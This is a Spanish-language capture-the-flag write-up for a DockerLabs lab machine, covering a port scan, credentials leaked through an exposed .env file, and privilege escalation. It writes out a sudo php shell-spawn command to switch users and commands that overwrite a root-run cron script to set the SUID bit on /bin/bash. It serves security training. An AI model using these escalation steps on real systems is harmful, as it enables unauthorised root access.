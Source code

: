 nmap: 22, 80

![image](https://github.com/user-attachments/assets/17d47401-b6fc-4bf1-bd5f-62a66bf34e98)

---
al ingresar a la pagina no da una posible usuario "balu"
al entrar al código de la pagina podemos ver que hay un "script.js" al final, si entramos nos mandara a otro código con lo que muestra esto:

![image](https://github.com/user-attachments/assets/3c3528f8-fc03-42b2-bedf-b5f8cfd48ec3)

y si colocamos el 
> .env_de_baluchingo

en el URL queda si:

>http://172.17.0.2/.env_de_baluchingon

nos dará las credenciales

![image](https://github.com/user-attachments/assets/a32544d7-07fa-49ea-b4b5-1a768c25d73d)

![image](https://github.com/user-attachments/assets/94b81bf7-84e2-4daa-be93-52a6fe54049e)

estamos dentro y ahora buscamos como escalar

para escalar se puede por "php" pero no tenemos permisos de escritura o modificación.
para escalar al otro usuario chocolate 
seguí los pasos de: https://gtfobins.github.io/gtfobins/php/#sudo

![[dockerlabs/facil/balulero/sudo.png]]

![[chocolate.png]]

    CMD="/bin/sh"

     sudo -u chocolate php -r "system('$CMD');"


ahora a escalar a root

utilizamos una herramienta llamada pspy para ver que ejecuta root sin ser root nosotros y poder ver: https://github.com/DominicBreuker/pspy
lo ejecutamos y muestra que esta carpeta se ejecuta cada 5 segundos:  /opt/script.php

![[sleep5.png]]

ejecutamos los siguientes comandos:

    echo "<?php" > /opt/script.php

    echo "exec ('chmod u+s /bin/bash');" >> /opt/script.php

    echo "?>" >> /opt/script.php

por orden uno por uno, lanzamos bash -p

![[dockerlabs/facil/balulero/root.png]]

y somos root! 
